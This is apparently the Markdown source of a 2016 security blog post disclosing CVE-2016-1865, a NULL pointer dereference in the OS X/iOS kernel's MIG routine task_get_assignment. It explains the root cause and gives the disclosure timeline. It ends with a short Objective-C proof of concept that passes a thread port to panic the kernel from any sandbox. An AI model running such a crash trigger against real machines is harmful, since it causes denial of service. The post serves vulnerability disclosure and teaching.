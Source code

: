 ```yaml
---
layout: post
title:  "[CVE-2016-1865] Some unexploitable but unsandboxable OS X/iOS Kernel NULL pointers"
date:   2016-07-10 13:00:00 +0800
categories: security apple cve
---
```


After examining [qwertyoruiop's][qwertyoruiop-twitter] [tpwn poc][qwertyoruiop-tpwn-github] and [presentation][qwertyoruiop-preso] I was wondering if Apple totally understood the root cause of that bug and if there were other similar issues.

It turned out that yes, there were other bugs.

One of them I found, which had maybe some chances of being exploitable on OS X without `SMAP`, was patched in `10.11.4`.
In this post I will discuss one of the other unexploitable null pointers I disclosed to Apple after the `10.11.4` release, because surprisingly even after 2 very similar bugs fixed, Apple failed to eliminate all of them.

Those bugs can be pretty annoying, since they can at least panic the kernel from any context and sandbox.

Unfortunately on OS X, unlike other Operating Systems, kernel NULL pointers are still a problem if your machine doesn't support `SMAP`, since the NULL page under certain circumtances can be mapped, and if the bug allows it (like Luca's tpwn kernel NULL pointer), it can be exploited.
Checkout Ian Beer's issues in the Project Zero tracker for additional details.

## MIG and IKOT_TASK:

Without going too much in details, since there are very good articles (from J Levin) onlines and books (the ones from Levin again and the one from Amit Singh), and as I mentioned, checkout Luca's presentation.
I will also take some shortcuts and use a more "free" language and try to explain the concepts instead of all the details, which you can eventually check in the code or in the mentioned references:

- MIG is a  OS X / iOS IPC "higher level facility" of interfaces built upon mach messages and mach ports used to communicate between tasks, including with the kernel.
- MIG systems exports a well defined interface of methods you can remotely invoke.
- Those methods have a signature and parameters types. Since only some "primitive" parameters are understood by the IPC system, some of them **must be validated and converted**. The root cause of the bug resides in this last statement.
- What's IKOT_TASK then? To understand this bug you just have to know that it's a "type" of mach port. They are all mach ports but there are different flavors depending on what they represent. For example if you call `mach_task_self()` you get back a port of kind "task" if you call `mach_thread_self()` you get back a port of kind "thread".

## One of the bugs

Take a look at this simple kernel method, which you can invoke from userspace with MIG like we said:

{% highlight c %}
/*
 *  task_get_assignment
 *
 *  Return name of processor set that task is assigned to.
 */
kern_return_t
task_get_assignment(
    task_t      task,
    processor_set_t *pset)
{
    if (!task->active)
        return(KERN_FAILURE);

    *pset = &pset0;

    return (KERN_SUCCESS);
}
{% endhighlight %}

Notice that the first parameter it's of type `task_t`.

This type is not a "primitive" type, in a MIG sense, so it has to be converted. You can see this in the MIG interface definition file `task.defs` with this procedure:

{% highlight c %}
/*
 *  Get current assignment for task.
 */
routine task_get_assignment(
        task        : task_t;
    out assigned_set    : processor_set_name_t);
{% endhighlight %}

`task_t` is defined in another `mach_types.defs` file with the conversion function to convert it from a `mach_port_t`:

{% highlight c %}
type task_t = mach_port_t
#if  KERNEL_SERVER
    intran: task_t convert_port_to_task(mach_port_t)
    outtran: mach_port_t convert_task_to_port(task_t)
    destructor: task_deallocate(task_t)
#endif   /* KERNEL_SERVER */
    ;
{% endhighlight %}

So we have to check the "intran" (translator function from the `mach_port_t` received to a `task_t`) function `convert_port_to_task(mach_port_t)`:

{% highlight c %}
/*
 *  Routine:    convert_port_to_task
 *  Purpose:
 *      Convert from a port to a task.
 *      Doesn't consume the port ref; produces a task ref,
 *      which may be null.
 *  Conditions:
 *      Nothing locked.
 */
task_t
convert_port_to_task(
    ipc_port_t      port)
{
    task_t      task = TASK_NULL;

    if (IP_VALID(port)) {
        ip_lock(port);

        if (    ip_active(port)                 &&
                ip_kotype(port) == IKOT_TASK        ) {
            task = (task_t)port->ip_kobject;
            assert(task != TASK_NULL);

            task_reference_internal(task);
        }

        ip_unlock(port);
    }

    return (task);
}
{% endhighlight %}

As you can see this function can potentially return a NULL pointer (`TASK_NULL`) if the mach_port we pass to it it's not of `IKOT_TASK`. Even the comment says it can return a NULL.

But read then again the `task_get_assignment` function. 
As you can see there is no check if the parameter is null or not, so if it's null we will crash in a read access from NULL page at: `if (!task->active)`.

The bug it's **totally useless**, but anyway I wanted to share this writeup to show to you that sometimes when a bug is fixed, other very similar bugs are still present in the code and unfixed. And also offers a quick tour of the MIG interface to the kernel.

## POC

{% highlight c %}
// gcc -o nptr2 nptr2.m -framework Foundation

#import <Foundation/Foundation.h>
#import <mach/task.h>

void trigger_null_ptr_deref2() {
    printf("[i] triggering...\n");
    processor_set_name_t pset;
    kern_return_t kr = task_get_assignment(mach_thread_self(), &pset);
    printf("[i] trigger returned 0x%x\n", kr);
}

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        trigger_null_ptr_deref2();
    }
    return 0;
}

{% endhighlight %}

As you can see we pass to `task_get_assignment` a `mach_thread_self()` which is not `IKOT_TASK`, triggering the null pointer. 
The correct use (without the bug) of this API is to pass a `mach_task_self()` or another task port.

#### Timeline:
- **2016/3/23** The issues are reported to Apple via email at `product-security@apple.com` with 90 days responsible disclosure policy.
- **2016/5/27** Apple told me even if it's not fixed in 10.11.5, the fix it's scheduled for the next release, so holding public disclosure.
- **2016/7/17** CVE-2016-1865 is assigned and the fix is pushed in 10.11.6

#### Take aways:
- Sometimes vendors just fix the immediate problem and bug, and don't investigate carefully about the root cause and search for additional bugs that share the same pattern.


[qwertyoruiop-twitter]: https://twitter.com/qwertyoruiopz
[qwertyoruiop-tpwn-github]: https://github.com/kpwn/tpwn
[qwertyoruiop-preso]: https://www.blackhat.com/docs/eu-15/materials/eu-15-Todesco-Attacking-The-XNU-Kernal-In-El-Capitain.pdf
